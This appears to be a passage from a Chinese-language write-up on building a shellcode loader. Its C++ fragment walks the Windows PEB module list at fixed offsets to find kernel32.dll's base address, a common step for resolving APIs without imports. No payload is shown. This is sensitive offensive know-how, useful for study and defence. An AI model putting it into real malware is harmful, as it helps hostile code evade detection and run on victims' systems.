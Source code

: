 <img src="shellcode加载器/image-20230505171010208.png" alt="image-20230505171010208" style="zoom:67%;" />	



以下是shellcode加载代码

```cpp
#include <stdio.h>
#include <windows.h>

// UNICODE_STRING 结构体定义
typedef struct _UNICODE_STRING {
    USHORT Length;  //表示字符串中的字符数,由于它是unicode形式的字符,因此每个字符占两个字节
    USHORT MaximumLength;  //分配的内存空间的大小，以字节为单位
    PWSTR Buffer;  //表示指向存储Unicode字符串的字符数组的指针
} UNICODE_STRING, * PUNICODE_STRING;

// 声明获取 InInitializationOrderModuleList 链表的函数
extern "C" PVOID64 __stdcall GetInInitializationOrderModuleList();

// 获取 Kernel32.dll 的基地址
HMODULE getKernel32Address() {
    // 获取 InInitializationOrderModuleList 链表
    LIST_ENTRY* pNode = (LIST_ENTRY*)GetInInitializationOrderModuleList();
    while (1) {
        // 获取 FullDllName 成员
        UNICODE_STRING* FullDllName = (UNICODE_STRING*)((BYTE*)pNode + 0x38);
        // 如果 Buffer 中的第 13 个字符为空字符，则已找到 Kernel32.dll
        if (*(FullDllName->Buffer + 12) == '\0') {
            // 返回模块的基地址
            return (HMODULE)(*((ULONG64*)((BYTE*)pNode + 0x10)));
        }
        pNode = pNode->Flink;
    }
}
```